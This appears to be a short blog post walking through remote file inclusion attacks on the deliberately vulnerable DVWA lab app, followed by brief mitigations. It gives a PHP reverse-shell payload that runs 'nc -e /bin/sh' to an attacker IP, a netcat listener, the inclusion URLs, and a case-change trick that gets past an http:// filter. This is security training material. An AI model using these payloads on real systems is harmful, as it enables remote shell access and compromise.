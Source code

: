 ```yaml
---
layout: post
title: Dam Vulnerable Web App Remote File Inclusion
---
```


Exploiting the Dam Vulnerable Web App

# LOW
<?php
passthru("nc -e /bin/sh 10.0.2.15 8888"); 
?>

save as reverse.txt otherwise it will execute on your machine.

check that you can access it on your local machine.
service apache2 start

http://localhost/reverse.txt

nc -vv -l -p 8888

important to include http://

10.0.2.4/dvwa/vulnerabilities/fi/?page=http://10.0.2.15/reverse.txt

now we have reverse shell, possibly have to put ? on end of txt if it doesn’t work.

# MEDIUM

Doing the same steps as the easy one, we see that it doesn’t work.
But if we change the lowercase t’s to uppercase it bypasses it.
http://10.0.2.4/dvwa/vulnerabilities/fi/?page=hTTp://10.0.2.15/reverse.txt

Looking at the code 
    $file = str_replace("http://", "", $file);
    $file = str_replace("https://", "", $file); 
It is filtering out http:// and https:// .

# HIGH

High stops us from including any page but include.php .

# Ways of mitigating file inclusion

Prevent remove file inclusion
	Disable allow_url_fopen and allow_url_include
	
	Edit the files in /etc/php5/cgi/php.ini and set to off.

Prevent local file inclusion
	Use static file inclusion
